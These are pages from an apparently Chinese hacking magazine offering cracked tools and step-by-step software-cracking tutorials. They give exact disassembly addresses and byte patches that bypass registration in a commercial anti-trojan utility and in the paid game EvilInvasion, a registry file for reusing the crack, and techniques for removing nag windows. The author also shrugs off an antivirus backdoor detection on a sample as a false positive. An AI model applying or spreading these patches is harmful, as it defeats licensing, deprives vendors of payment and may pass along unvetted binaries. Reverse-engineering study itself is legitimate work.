我记得以前有一个同事，很厉害，我们都笑称他为“天才程序员”。假如你觉得自己并不是一个天才型的人，那么你将需要付出比别人更多的努力，更多的汗水。高手之所以成为人们眼中的高手，是因为他曾经付出过比别人更多的汗水，所谓“一份耕耘一份收获”，没有先天的优势，我依然相信后天是可以弥补的。所以假如你想进入破解这么一个神秘的领域，首先你需要端正好的学习态度，合理安排好你的学习计划，因为上天总是会垂青有计划的人，理想的实现总是属于有上进心和有计划的人。

本期我给大家筛选了一些比较基础的文章，因为我总是觉得“万丈高楼平地起”，只要打好了根基，那么后面的学习就容易多了，我也希望初学的读者朋友们，千万别对这些基础的文章不屑一顾，因为基础打得越是扎实，在以后的学习中，你会发现原来所有的辛苦都是值得的。“师傅领进门，修行在个人”，正是这么一个道理。

### 每月破资源

#### 1、Aspack 2.2 破解版 + 脱壳机
它是非常好的 32 位下 PE 格式可执行文件压缩软件，使用非常方便，而且操作很快捷。以往的压缩工具通常是将电脑中的资料或文档进行压缩，用来缩小储存空间，但是压缩后就不能再运行了，如果想运行必须解压缩。另外，当你的系统中无压缩软件时，你的压缩包即无法解开。而 ASPack 的独特就在这里，它是专门对 WIN32 可执行程序进行压缩的工具，压缩后程序能正常运行，丝毫不会受到任何影响。而且即使你已经将 ASPack 从系统中删除，曾经压缩过的文件仍可正常使用。

#### 2、IDA Pro Disassembler 5.4 demo 版
IDA Pro 是一个极好的反汇编工具，它大大胜过了 w32dasm。当运行 IDA Pro 时，你所最先注意到的是它的界面比 w32dasm 更加专业，这里比 w32dasm 有更多的选项或更先进的地方。它的优点是可以更好的反汇编和更深层分析，而缺点是使用起来更困难。实际上 IDA 同 w32dasm 有很多相同的功能：可以快速到达指定的代码位置；可以看到跳到指定位置的 jmp 命令；可以看参考字符串；可以保存静态汇编等。近来网上流传的多是 demo 版，喜欢新体验的读者朋友可以先体验一番了，不过 demo 版始终和正式发布版有很大的区别。

#### 3、File Monitor V7.04
Filemon 是一款出色的文件系统监视工具，它可以监视应用程序进行的文件读写操作。它将所有与文件相关的操作（如读取、修改、出错信息等）全部记录下来以供用户参考，并允许用户对记录的信息进行保存、过滤、查找等处理，这就为用户对系统的维护提供了极大的便利。

### 4. Immunity Debugger v1.73

位于迈阿密的专业渗透测试技术公司 Immunity 发布了一种新的工具，这种工具能够加快编写利用安全漏洞代码、分析恶意软件和二进制文件逆向工程等过程的速度。这个工具是在具有功能图表的强大用户界面的基础上建立起来的，是入侵渗透行业专门为堆创建而制作的第一个堆分析工具，支持 Python 应用程序编程接口，很容易进行扩展。但是我想大家都知道，这个调试器和我们平时用的 OD 是非常相似的，因为是购买了 OD 的源代码的缘故，其使用方法和 OD 也是一样的。

### 5. 破解帮助手册

这是一个由 VB 编译出来的小程序，主要是将一些常见的定义和使用方法集合到一个小程序中，在破解的时候可以随时查阅我们会忘记的知识。我觉得初学脱壳的爱好者可以先熟悉一下这个小程序的内容。

### 6. SoftSnoop 2009 V0.1

SoftSnoop 是一款强大的函数调用监控工具，本次提供的工具是由红尘岁月专门编译的一个版本，其功能比较强大，因为此次他添加了汇编、C、VB、易语言、MFC、Delphi 函数功能与参数注释，添加了 VB 事件解析，MFC 动态链接方式的虚函数与消息映射表的解析等等，更利于我们监视 API 的一举一动。

### 7. Reflector 4.2.4

Reflector 是一款比较强大的反编译工具，它是专门破解 .NET 程序的工具，相信很多朋友都用过它，通过 Reflector 反汇编 .NET 的程序之后，我相信你很容易可以还原出源代码。但 Reflector 本身有一个比较致命的局限性，就是如果你的电脑没联网的话，可能导致没办法使用这个工具，所以本期提供了一个可以在不联网状态下能够使用的版本。

### 8. RegSnap v6.1.1955

RegSnap 是一个可以帮助你分析 Windows 注册表更改的工具，使用它可以比较已保存的快照，了解哪个键被修改，删除或者增加。你还可以分析其它敏感的系统部分，例如 Windows 和 Windows System 目录里的文件。RegSnap 生成 HTML 格式的报告，Pro 版支持命令行界面。

### 9. Delphi and C++Builder Decompiler v3.42

这是一个反汇编 Delphi 和 C++Builder 的工具，据说和 DEDE 的效果差不多，这个我没有做过对比，也有传闻说这是一个山寨版的工具。但是作为使用这些工具的我们，可能没有太大必要去考究是否山寨，关键就是我们使用这个工具的时候，结果是否就是我们所需要的。

### 10. IDA Pro 5.4 中文帮助手册

IDA Pro 5.4 中文帮助手册比较全面地让我们重新认识 IDA，因为在此之前，我们只能靠一些零碎的文章来认识 IDA。另外由于 IDA 的功能非常强大，使用也会比 OD 之类的工具更加复杂了，所以很多新手在 IDA 面前表现得有点无力。希望这个手册对新手有很大的帮助。

《黑客育婴手册》 WWW.NOHACK.CN 单价：29.8元 全国各大报刊亭有售

## 软件破解入门系列——常用破解工具的介绍

> **从本文你可以学习到：**
> 常用破解工具的介绍以及使用方法

大家好，从这期杂志开始，由我为大家写一个软件破解入门的系列文章，这一期主要给大家介绍一些破解的常用工具。在讲解今天的内容之前，我想先引用看雪老大的一段话，送给所有想学习软件破解的读者们。

> “很多人都想学习解密，这东西刚入门时会让人沉迷进去，可以饭不吃、觉不睡。出现这种现象也许是解密满足了人们的猎奇心吧。但掌握这方面技术，对自身的提高确实有好处，可以通过跟踪软件提高自己的调试技能，并且能了解他人程序思路，使自己写出更好的程序。研究解密技术有助于掌握一些系统底层知识、这些知识绝对是构造起大型软件的坚实基础。许多程序员都经历了这一锻炼过程的。”

由于机器语言与汇编语言是一一对应的，因此就可将机器语言转化成汇编语言，这个过程称之为反汇编。而汇编语言可读性是比较好的，这样就可分析程序流程，解析其功能了，这个过程就是解密（俗称破解）。也就是说，解密的基础是建立在汇编语言级别上的，因此想涉足这一领域的朋友，汇编语言一定得学好。

学习解密其实很累的，需花费大量的时间，而且经常会碰壁，三五天毫无进展是极为平常的事情。这时你可能有点想退却，其实你不要着急，只要认真学习，成功就在眼前。没有人生来就什么都会，如果你有问题，就大胆地去问你周围的人。学解密的秘诀就是勤奋＋执着！记住并能做到这两点，你会变得很优秀的。”

我想，学习破解正如看雪老大所说的那样，是一个不断积累的过程。多思考，多交流，多动手，如果一遇到困难就放弃的话，那么你永远也学不到知识。也许你会说这个大道理谁都懂，确实，这条路没有投机取巧的独门秘籍，也没啥捷径可言，想要学得好，只能辛苦地坚持。我想，能坚持下来最好的办法就是不要让生活磨灭了你的兴趣，兴趣是指引你攀越一座座高山的最好的老师。好了，下面我们正式开始讲解今天的主题。

### 一、查壳工具

在破解一个软件之前，我们一定要养成先查壳的好习惯。那壳是什么呢？螃蟹有壳，乌龟有壳，穿山甲也有壳，自然界很多生物都有壳，壳的一个最基本功能，那就是保护作用。软件加壳也是同样的道理，壳对软件自身起到保护和隐藏的作用。

**小提示——壳**
是在计算机软件中的一段专门负责保护软件不被非法修改或反编译的程序。壳一般都是先于程序运行，拿到控制权，然后完成它们保护软件的任务。由于这段程序和自然界的壳在功能上有很多相同的地方，基于命名的规则，大家就把这样的程序称为“壳”了。从功能上抽象，软件的壳和自然界中的壳相差无几，无非是保护、隐藏壳内的东西。而从技术的角度出发，壳是一段执行于原始程序前的代码。软件的壳分为加密壳、压缩壳、伪装壳、多层壳等类，目的都是为了隐藏程序真正的 OEP (Original Entry Point 入口点)。

如果一个软件加了壳的话，我们可以用对应壳的脱壳机或者脚本把它脱掉。脱壳机不行的话，我们还可以自己进行手工脱壳。这些在以后的文章中我都会向大家一一介绍。常见的查壳工具主要有：FI、PEiD、DiE、Language2000 等。下面我们来一起看下它们的使用方法。

#### 1. FI

FI 是一款在命令行下运行的软件，我们打开 CMD，切换到 FI 的工作目录下，将待查壳的程序也放在 FI 的工作目录下，然后输入命令“fi 待查壳程序的名字”，就会显示程序加了哪种壳，如图 1。

图 1 中的结果显示，程序被加上了 ASPack v2.12 的壳。不过 FI 这款软件由于作者很长时间没有进行更新了，所以无法查找出现在的一些新壳。

#### 2. Language 2000

这是一款 GUI 界面的查壳工具，使用起来非常的方便，软件界面如图 2。我们点击“打开”，选择需要查壳的程序就可以了，查壳结果如图 3。显示的结果同 FI 是相同的。

#### 3. DiE

这是一款与 PEiD 同样强大的查壳软件，最新版本是 0.64，我这里使用的是 0.63 汉化版，软件界面如图 4。查壳的时候点击“运行文件”，选择需要查壳的程序，或者直接将待查壳程序拖入软件界面，查壳结果如图 5。

在 DiE 中，我们还可以点击上面不同的选项卡来查看程序的各种信息。比如点击“区段”选项卡，显示如图 6。在“输入表”选项卡中，我们可以看到程序使用了哪些 API 函数，这对于我们下断点来说是非常有帮助的。

那么什么是输入表呢？我们一起来了解下。

**输入表是 PE 文件结构中不可或缺的部分，输入表也称之为“导入表”。**

要想了解输入表，首先还得先从 DLL 文件入手。日常生活中我们会看见一些大型软件有很多的 DLL 格式文件，它们是“动态链接库文件”，这些文件中有很多的导入函数，这些函数不会直接被执行。当一个程序 (EXE) 运行时，导入函数是被程序调用执行的，其执行的代码是不在主程序 (EXE) 中的一小部分函数，其真正的代码却在 DLL 文件中。

这时我们就会想，EXE 主程序是如何找到这些需要导入的函数呢？这就更归结于输入表了，输入表就相当于 EXE 文件与 DLL 文件沟通的辅助，形象点可以比喻成两个城市之间交流的高速公路，所有的导入函数信息都会写入输入表中，在 PE 文件映射到内存后，Windows 将相应的 DLL 文件装入，EXE 文件通过“输入表”找到相应的 DLL 中的导入函数，从而完成程序的正常运行，这一动态连接的过程都是由“输入表”参与的。

现在我们可以很清楚地知道，输入表就好像 EXE 文件和 DLL 文件之间的桥梁，EXE 文件通过输入表来寻找封装在 DLL 文件中的函数。在“选项”中，我们可以在“右键菜单扩展”前打勾，然后点击“保存”，如图 8。这样以后我们查壳的时候只要在程序上点击鼠标右键，选择“DiE Scan”就可以了，非常的方便。

#### 4. PEiD

用 PEiD 查壳的方法十分简单，我们只需要在 PEiD 界面选择“浏览”，然后选择要查壳的软件就可以了。或者也可以直接把需要查壳的软件拖拽进 PEiD 的界面。另外，我们也可以直接把 PEiD 查壳加入到系统的右键菜单中，在 PEiD 界面点击“选项”，选择“添加到系统右键菜单”，保存即可。以后需要查壳的话，直接在软件上点击鼠标右键就会出现“用 PEiD 扫描”，非常方便。

PEiD 查壳的结果如图 9，从图中我们可以清楚地看出，软件是被加上了 ASPack 的壳。点击“>”这个按钮可以进一步查看软件的其它相关信息。

> **小提示：**
> 如果你用普通扫描没有查出信息的话，可以点击“扩展信息”旁边的“=>”按钮，选择核心扫描试试看。点击这里的话，还会出现插件菜单，以后我们会逐渐使用 PEiD 的这些插件的。

### 二、调试工具

软件查壳完之后，我们就可以着手收集软件的各种信息，比如各种注册的提示，软件是以何种方式来验证注册信息的合法性，未注册是否有一些功能限制等等。收集完相关信息以后，我们就要把软件载入到调试工具中进行破解。

调试分动态和静态两种，静态调试工具主要有：W32Asm、IDA Pro、C32Asm 等等；动态调试工具有：OllyDbg、Softice、TRW2000、Smartcheck 等等。这里我们重点介绍动态调试工具 OllyDbg，这是一款 RING 3 级别下的调试工具，其它工具的介绍以及使用方法，大家可以到网上去找相应的教程，这里限于篇幅，就不一一为大家展开讲解了。

我们双击 OllyDBG.exe 就可以打开 OD 了，点击“文件”－“打开”来选择我们要进行调试的程序，或者你也可以直接把想调试的程序拖进 OD 的界面中。同 PEiD 一样，我们也可以把 OD 添加到系统的右键菜单中。点击“选项”－“添加到系统资源管理器右键菜单”，在弹出的对话框中选择“添加 OllyDbg 到系统资源管理器”。以后要调试软件的时候直接在其执行文件上按鼠标右键选择“OllyDbg”就可以了，非常方便。

OD 打开之后界面如图 10，各个窗口的名称都在图标示出来了。在用 OD 载入软件之前，我们还要对 OD 进行一些配置，点击“选项”，选择“界面设置”，选择“目录”选项卡，这里我们需要对 OD 的 UDD 目录和插件目录进行下配置。大家照着自己电脑上的情况进行选择就可以了，如图 11。

还有一个地方就是 OD 的调试选项，我们点击“调试”，选择“调试设置”，如图 12。对于新手来说，这里的默认选项基本不需要修改，不过随着以后学习的深入，我们也会在这里进行一些配置。除此之外，我们还需要熟悉 OllyDbg 的一些快捷键，常用快捷键如下：

- **F2**: 下一个断点。
- **F4**: 运行到光标的指定位置。
- **F7**: 单步步入，我们要用它来进入算法 CALL。
- **F8**: 单步执行，每按一次执行一条汇编指令。
- **F9**: 运行程序。
- **ALT+F9**: 返回程序领空。

看了这些快捷键你可能会感到一头雾水，在以后的动手操作中，我们会逐渐熟悉这些快捷键的，大家现在只需要牢记它们就可以了。关于 OD 我们就先了解这么多概念性的东西，至于如何使用 OD 动态调试软件，我会在以后的教程中给大家慢慢讲解的。

### 三、其他工具

#### 1. 输入表重建工具

ImportRec 是一款输入表重建工具，有些壳我们脱掉以后还不能够直接运行，此时就需要这个软件来进行修复，软件的界面如图 13。在下一课中，我们将使用到这款软件进行脱壳修复。

#### 2. 资源编辑工具

我们经常在汉化的时候使用到这类工具，它可以帮助我们修改软件的字体、菜单、对话框或导出软件内的各种资源等等。比较有代表性的有：eXEScope、ResScope、PE Explorer、Restorator 等，这里我就以 Restorator 为例，软件界面如图 14。从图中我们可以看到这个程序的对话框、图标等各种资源，在以后的课程中我们会用到这类软件来辅助我们进行破解的。

#### 3. 补丁工具

我们在破解文章中经常看到的内存注册机就是使用补丁工具来制作的，比较有代表性的有：CodeFusion、DUP、Keymake 等等，这里我们就使用率比较高的 Keymake 为例，软件界面如图 15。我们点击“其他”，选择“内存注册机”，会跳出如图 16 的对话框。在讲解破解明码比较软件的时候，我们会讲解如何利用到这个工具来制作内存注册机。

讲到这里，我们的第一课也接近尾声了，最后总结一下这节课所学习到的知识：首先了解了脱壳工具，知道了壳的概念，之后简单讲解了调试工具 OD 的配置。在下一课中，我会给大家具体讲解基础的脱壳方法。

> 【文章中所涉及到的相关工具已收录在光盘中】

### 编辑点评：

破解工具的介绍并不是短短几页纸可以介绍得完的，所以“黑手”在前两年就已经出版了一本叫做《精通破解工具》的书籍，里面更详细地讲解和描述了九成以上的破解工具。为什么不是百分之百呢？因为有些高手自己开发出来并且只供自己使用的，所以想要弄到并不太容易。本文只是对一些常见的工具做了一些介绍，如果你还想了解更多的破解工具，请查阅“黑手”出版的《精通破解工具》。

### 从本文你可以学习到：

- 最基本的软件爆破方法

网页木马拦截精灵是一款用于防止网页木马的专业软件。既然称之为网页木马拦截精灵，当然它最大的功能就是拦截网页木马了，它会对系统所有进程启动行为自动智能分析，以确定是否为网页木马入侵系统的行为或是正常的系统进程调用。

对于正常的系统软件启动，程序会自动放行，而对于拦截到的网页木马，则会弹出窗口提示用户。而且不管是自动放行正常的系统软件或是拦截网页木马，都会在程序的“拦截记录”中产生相应的记录，方便用户随时查看。

怎么样？看了介绍感觉非常专业吧？但是不知道这个软件在注册加密方面又怎么样呢？安装好程序后，老规矩地使用 PEiD 扫描一下，结果如图 1。

> **小提示：**
> 我知道有些高手一般会跳过查壳这一步，直接就 OD 载入程序，但对于新手来说，我还是建议大家不要忽略查壳这一步。

相信很多读者朋友都知道，VB 的程序在编译的时候可以编译为本机代码或伪代码（P-code），对于 VB 程序的破解，一般来说 P-code 的难度会大一点，所以我为了确认一下是否为 P-code，我用 P32Dasm 看了一下，发现是非 P-code，如图 2。

从图 2 中可以看到 Ncode，表示为本机代码编译，不是 P-code，这样一来，代码的可读性就比 P-code 好很多。另外，从图 2 中我们还可以知道这个程序使用 MD5 算法，是否使用在注册加密上，这个在刚开始的时候我们是不知道的，因为我们是打算爆破它，所以程序在注册加密上是否使用 MD5 算法，对我们的用处并不大。除此之外，这个程序还有可能在系统的临时目录下会释放一个或者几个以上的文件，这个对我们同样用处不大。

再把程序运行起来，看看注册界面先，如图 3。

“数据接收成功”表示可能处于联网状态，还有提示字样“注册码错误”。在界面中可以看到“未注册”字样，另外在安装目录下发现一个文件“NTS.ini”，其内容如图 4。

从图 4 中可以看到，RCode= 后面的字符串明显是保存注册码用的，现在看到的估计是使用 MD5 算法加密过的。下面的 UsedDays 保存使用的天数，NowDay 很明显就是保存日期。

由此看来，从字符串“RCode”这里下手估计是一个突破口。信息收集到这里，也该 OD 出场了。在 OD 的代码窗口上按鼠标右键，依次选择“查找”->“所有文本参考字串”，查出 2 处，如图 5。

在这 2 处下好断点，然后按 F9 将程序跑起来吧，很容易就中断在 004E8EDE 处：

```assembly
004E8EDE      68 00644100   push    00416400                 ; UNICODE "RCode"
004E8EE3      68 D80F4100   push    00410FD8                 ; UNICODE "nConfig"
004E8EE8      52            push    edx
004E8EE9      68 C00F4100   push    00410FC0                 ; /String = ""
004E8EEE      FF15 7C104000 call    dword ptr [<&MSVBVM60.__vbaStrCat>] ; /// 获得安装目录
004E8EF4      8B35 90124000 mov     esi, dword ptr [<&MSVBVM60.__vbaStrMove>]
004E8EFA      8BD0          mov     edx, eax
004E8EFC      8D4D D8       lea     ecx, dword ptr [ebp-28]
004E8EFF      FFD6          call    esi
004E8F01      50            push    eax
004E8F02      E8 19F3FFFF   call    004E8220                 ; /// 读取ini文件内容
...
004E8FF9      E8 02FAFFFF   call    004E8A00                 ; /// 读取C盘的序列号
004E8FFE      8BD0          mov     edx, eax
004E9000      8D4D DC       lea     ecx, dword ptr [ebp-24]
```

这段代码的主要作用就是读取 .ini 文件内容，看看其内容是否符合预设的算法以及保存的信息。继续 F8 跟代码，返回到如下位置：

```assembly
004EA966      8B16          mov     edx, dword ptr [esi]     ; /// 返回到这里
...
004EA9B7      66 837D E8 FF cmp     word ptr [ebp-18], 0FFFF ; // 比较 ini 文件信息是否符合预设的算法信息
004EA9BC      0F85 6D030000 jnz     004EAD2F                 ; /// 跳就 Over，这里 NOP 掉
004EA9C2      8B06          mov     eax, dword ptr [esi]
...
004EAA0A      E8 61E7FFFF   call    004E9170                 ; /// 读取日期信息
004EAA0F      85C0          test    eax, eax                 ; // 保存的使用次数
004EAA11      0F8D 47060000 jge     004EB05E                 ; /// 跳就 Over，这里 NOP 掉
004EAA17      3D 84FEFFFF   cmp     eax, -17C
004EAA1C      0F8E 3C060000 jle     004EB05E
```

这几行代码就是爆破的关键地方了，这段代码并不难理解，所以地址 004EA9BC 和 004EAA11 处都 NOP 掉就可以了。

修改完后，当然是要保存成果了，如图 6。选择“所有修改”，再选择“全部复制”，如图 7。然后再右键选择“保存文件”即可，来看看注册成功的效果图，如图 8。

我手痒不小心把未破解的主程序丢到杀毒网去看了看，发现 McAfee 会报为 SennaSpy2001，如图 9。

## 完美爆破国外收费游戏

### EvilInvasion

yyshell & love815

- 从本文你可以学习到：
- 标志位爆破法

前几天看见一个学妹玩游戏，游戏过程中不时地拍桌子、唉声叹气，原来是她的游戏技术还没有到家，听她说了玩了一个星期才玩过了五关。她玩到第六关的时候游戏中提示要“注册购买”才可以继续，于是让我看看能不能帮她破解游戏的限制。

这个游戏原名“EvilInvasion”，国内有些网站命名为“邪灵入侵”。游戏中有一个限制就是当玩到第六关时就弹出注册购买提示（由于我没有玩过这个游戏，提示注册的截图就不贴出来了）。打开游戏主程序 EvilInvasion.exe，可以看见上面有一个“Buy Now ($16.95)”按钮，很明显要花 16.95 美元注册费，如图 1。

先打开主程序假注册一下，输入注册信息如下：

- name: yyshell
- mail: yyshell@live.cn
- key: 1234567890

点“OK”后有错误提示，如图 2。

我们可以根据错误提示来查找破解游戏的突破口。先用 PEID 对游戏主程序 EvilInvasion.exe 查壳，显示信息为“Microsoft Visual C++ 7.0 Method2 [调试]”，如图 3。

游戏主程序 EvilInvasion.exe 竟然没有任何加壳保护，免去了脱壳的麻烦。马上将程序载入到 OllyDbg 调试器，然后按快捷键“F9”运行程序，点“Buy Now ($16.95)”后随便输入注册信息，然后点“注册”，出现错误提示后使用 OllyDbg 调试器“超级字符串参考”插件搜索“ASCII”。

来到字符串窗口，搜索刚才提示框的提示内容“Key is invalid. Please, check.”，搜索到一处，在这里我们还能看见一些注册过程中的提示，比如“Thank you for buying the full version of Evil Invasion! Now, you have access to all levels!”，如图 4。

在参考字符串中的注册错误的那行“Key is invalid. Please, check.”按鼠标右键选择“跟随：到代码窗口中”，以下是部分代码：

```assembly
0040CCC3 |. 8D4C24 1C     lea ecx,dword ptr ss:[esp+1C]
0040CCC7 |. E8 A4FBFFFF   call EvilInva.0040C870
0040CCCC |. 84C0          test al,al
0040CCCE |. 75 15         jnz short EvilInva.0040CCE5
0040CCD0 |. 6A 00          push 0                                   ; /Style = MB_OK|MB_APPLMODAL
0040CCD2 |. 68 D0F44300    push EvilInva.0043F4D0                   ; |Error
0040CCD7 |. 68 D4FE4300    push EvilInva.0043FED4                   ; |Key is invalid.\nPlease, check.
0040CCDC |. 56             push esi                                 ; |hOwner
0040CCDD |. FF15 38F34300  call dword ptr ds:[<&USER32.MessageBoxA>>; \MessageBoxA
0040CCE3 |. EB 4B          jmp short EvilInva.0040CD30
0040CCE5 |> 8D4424 30     lea eax,dword ptr ss:[esp+30]
0040CCE9 |. 50             push eax                                 ; /Arg3
0040CCEA |. 8D4C24 50     lea ecx,dword ptr ss:[esp+50]            ; |
0040CCEE |. 51             push ecx                                 ; |Arg2
0040CCEF |. 8D5424 1C     lea edx,dword ptr ss:[esp+1C]            ; |
0040CCF3 |. 52             push edx                                 ; |Arg1
0040CCF4 |. 8D4C24 1C     lea ecx,dword ptr ss:[esp+1C]            ; |
0040CCF8 |. E8 B3F5FFFF   call EvilInva.0040C2B0
0040CCFD |. 84C0          test al,al
0040CCFF |. 6A 00          push 0                                   ; /Style = MB_OK|MB_APPLMODAL
0040CD01 |. 75 13         jnz short EvilInva.0040CD16
0040CD03 |. 68 D0F44300    push EvilInva.0043F4D0                   ; |Error
0040CD08 |. 68 78FE4300    push EvilInva.0043FE78                   ; |Could not save valid key to registry.\nYou must log on with register write access rights.
0040CD0D |. 56             push esi                                 ; |hOwner
0040CD0E |. FF15 38F34300  call dword ptr ds:[<&USER32.MessageBoxA>>; \MessageBoxA
0040CD14 |. EB 1A          jmp short EvilInva.0040CD30
0040CD16 |> 68 64FE4300    push EvilInva.0043FE64                   ; |Key accepted
0040CD1B |. 68 08FE4300    push EvilInva.0043FE08                   ; |Thank you for buying the full version of Evil Invasion!\nNow, you have access to !
0040CD20 |. 56             push esi                                 ; |hOwner
0040CD21 |. FF15 38F34300  call dword ptr ds:[<&USER32.MessageBoxA>>; \MessageBoxA
0040CD27 |. 6A 00          push 0                                   ; /Result = 0
```

地址在 http://www.virustotal.com/zh-cn/analisis/7b81129ad049e871777e52e2a156562b6fd066e0857861039b237c013d304255-1245951227，我并不知道 SennaSpy2001 是什么意思，于是百度了一下，发现这样的解释：“Backdoor/Mule 后门程序，也称 SennaSpy2001，它实际上是一个制作远程控制特洛伊木马程序的后门程序。”我顿时吓出一身冷汗，但我冷静下来后认为 McAfee 可能是误报了。

> 【文章所涉及到的目标程序已收录在光盘中】

编辑点评：这种爆破法基本就是那种最原始的，除了本文所说的，还有 75 改 74，jle 改 jge 等等，所以只要认为确实是需要的地方都可以爆破，但是程序代码被修改后必须保证能够正常运行并没有之前所受的限制。

从以上代码可以看出，0040CCDD 的 call 调用了错误提示框，只要跳过了这个错误提示后往下跟踪就来到注册成功了，0040CCCE 有一个条件跳转指令 jnz 跳转到 0040CCE5。当上面的 al 等于零的时候，跳转就不实现，往下跟踪就来到提示错误代码，那只要跳转实现就可以跳过错误提示。

我们把 jnz 修改为无条件跳转 jmp 并保存，注册后提示成功了，如图 5。

虽然注册成功也解除了游戏的限制，但是每次打开游戏都要先注册后才可以使用，这样既麻烦也浪费我们宝贵的时间，可见这种修改方式并不是完美的破解方式！

重新分析一下，影响 jnz 是否跳转取决于谁？看看代码 `0040CCCC |. 84C0 test al, al`，应该是 al 的值。当 al 为零的时候不跳转。那我们想办法让它不为零就可以让 jnz 实现跳转了吧？根据经验，决定 al 的值一般就是上面一行的 call 了。

下面是我经过调试后完美修改的破解方法，先在 0040CCC7 位置处，也就是在 al 上行的 call 地址下断点，接着假注册一下，程序停止后再 F7 跟进 call，下面是 call 里面的末尾代码，也就是 al 数值改变的关键代码：

```assembly
0040C8F3 |. FF15 68F14300  call dword ptr ds:[<&MSVCP71.std::basic_...>]
0040C8F9 |. B0 01          mov al, 1
0040C8FB |. EB 14          jmp short EvilInva.0040C911
0040C8FD |> C74424 38 FFF> mov dword ptr ss:[esp+38], -1
0040C905 |. 8D4C24 10      lea ecx, dword ptr ss:[esp+10]
0040C909 |> FF15 68F14300  call dword ptr ds:[<&MSVCP71.std::basic_...>]
0040C90F |> 32C0           xor al, al
0040C911 |> 8B4C24 30      mov ecx, dword ptr ss:[esp+30]
0040C915 |. 5F             pop edi
0040C916 |. 5E             pop esi
0040C917 |. 5D             pop ebp
0040C918 |. 64:890D 00000> mov dword ptr fs:[0], ecx
0040C91F |. 8B4C24 20      mov ecx, dword ptr ss:[esp+20]
0040C923 |. 5B             pop ebx
0040C924 |. E8 5E010300    call EvilInva.0043CA87
0040C929 |. 83C4 2C        add esp, 2C
0040C92C \. C2 0C00        retn 0C
```

在代码中我们可以看到段尾有一行 `0040C90F |> 32C0 xor al, al`，这里就直接影响了 al 的值，经过这行代码后 al 的值为零。我们主要的破解就是给 al 传一个非零的值。

我们可以修改为 `mov al, 1`，这样 al 就等于 1 了，如图 6。

修改后 jnz 就跳过错误提示，这样往下跟踪就来到“注册成功”了，如图 7。

将修改的代码另存一份后再打开游戏主程序，可以看到购买按钮已经是灰色的，并显示为完整版，如图 8。

程序将注册信息写到了注册表：
`HKEY_CURRENT_USER\Software\VHGames\EvilInvasion`
`"KEY"="www.nohack.cn"`
`"NAME"="yyshell"`
`"EMAIL"="yyshell@live.cn"`

导出注册表另存为一个 key.reg，以后当我们在其它电脑上使用时先运行 key.reg，然后打开我们的破解主程序就行了。注册表主要是为免去输入注册信息的麻烦。

破解这个游戏的方法还有很多，比如 bp MessageBoxA 断点也可以返回到 0040CCDD 的错误提示。在游戏开发者的网站上还有另一款游戏，大家可以下载来练习使用 bp MessageBoxA 破解它，破解的效果都是一样的！

学习破解重在多多实践，多多思考，这样你的破解技术才会提高。如果你还有其它更好的破解方法，请别忘记到非安全论坛 http://www.nohack.cn/bbs 跟我们一起分享哦！

> 【文章所涉及的目标程序已收录在光盘中】

### 编辑点评：

标志位爆破法一直是爆破爱好者研究的最终方向，因为有些人在算法分析方面稍差，所以会在爆破这方面下苦功。其实爆破比算法分析更需要勇气，因为很多时候，爆破会比算法分析辛苦很多。

## 软件破解奇巧赢计大搜索 —— Nag 窗口篇

四风飘雪

- 从本文你可以学习到：
- 如何去掉烦人的 Nag 的几种技巧

Nag 的英文意思是烦扰、唠叨、烦人。Nag 窗口是一个很广义的概念，我们可以将所有认为不需要的、不希望它出现的窗口都称之为 Nag 窗口。此篇文章着重于介绍各种技巧，所用 OllyDbg 版本为 OllyICE 1.1。

### 一、基本方法

- 1. 静态反汇编和动态调试相结合，找到调用 Nag 窗口的 call 语句，使它不起作用；
- 2. 静态反汇编和动态调试相结合，找到能跳过 Nag 窗口调用的跳转，修改跳转来跳过它；
- 3. 利用资源类软件找到窗口相关资源进行修改，从而达到消除它的目的。

以上静态反汇编软件主要指 W32Dasm、IDA Pro、C32Asm；动态调试软件主要指 OllyDbg；资源类软件主要指 Resource Hacker、eXescope、PE Explorer、XNResource Editor（非 VB 类）；VB Explorer、VB rezq、VBReformer（VB 类）。

### 二、动态拦截 API

我们可以在 OllyDbg 中拦截相关 API，进行定位。

### 1、MessageBox

MessageBox 函数创建、显示、操控一个消息框，消息框包含信息、标题、图标和按钮。非 VB 类程序使用这一 API：

```cpp
int MessageBox(
  HWND hWnd,          // 父窗口句柄
  LPCTSTR lpText,     // 文字内容信息地址
  LPCTSTR lpCaption,  // 标题地址
  UINT uType          // 消息框的样式
);
```

父窗口句柄通常默认为 0，我们一般是将其改为 1，这样消息框就因为找不到父窗口而变为“没有父亲的孤儿”而消失，不再显示了。例如下面这段代码（为了后面的继续举例，我们将这段代码标示为例 1）：

```assembly
00401026 |. 6A 00          push    0               ; /Style = MB_OK|MB_APPLMODAL 消息框的样式
00401028 |. 68 71304000    push    00403071        ; |Title = "Remove Me!" 标题地址
0040102D |. 68 7C304000    push    0040307C        ; |Text = "NAG NAG" 文字内容信息地址
00401032 |. 6A 00          push    0               ; |hOwner = NULL 父窗口句柄
00401034 |. E8 07000000    call    <jmp.&USER32.MessageBoxA> ; \MessageBoxA
```

将 00401032 行的 push 0 改为 push 1 即可，这样的修改量最小，只修改半个字节。

### 2、rtcMsgBox

VB 类程序使用这一 API，例如下面这段代码（为了后面的继续举例，我们将这段代码标示为例 2）：

```assembly
00402480    8D55 CC       lea     edx, dword ptr [ebp-34]
00402483    51            push    ecx
00402484    52            push    edx
00402485    8D45 DC       lea     eax, dword ptr [ebp-24]
00402488    56            push    esi             ; esi=0
00402489    50            push    eax             ; 指向正文 UNICODE "Please Remove Me!"
0040248A    FF15 28104000 call    dword ptr [<&MSVBVM60.#595>] ; MSVBVM60.rtcMsgBox
```

这段代码带有普遍性，通常 VB 中消息框都是这种形式的，将 0040248A 行整个 nop 掉即可。

### 3、SetTimer 函数

隔一段时间就弹出的 Nag 窗口，一般采用 SetTimer 函数创建了一个计时器。SetTimer 函数是创建一个特定时间间隔的计数器，其 API 原型如下（为了后面的继续举例，我们将这段代码标示为例 3）：

```cpp
UINT SetTimer(
  HWND hWnd,              // 与定时器相关的窗口句柄
  UINT nIDEvent,          // 定时器标识
  UINT uElapse,           // 定时间隔，以毫秒为单位
  TIMERPROC lpTimerFunc   // 定时器超时函数地址
);
```

### 三、另类方法大汇集

### 1、F12 暂停 + 堆栈法

仍以例 1 为例，用 OllyICE 载入目标程序，使其运行，运行到出现我们要找的消息框时，按 F12 暂停程序，然后按快捷键 Alt+K，来到堆栈窗口，定位 MessageBoxA 函数，按鼠标右键，选择“显示调用”，如图 1，立即来到 00401034。

此种方法对 VB 程序也是完美支持的，请读者对于例 2，自行练习这种方法。

### 2、直接利用 16 进制编辑器搜索

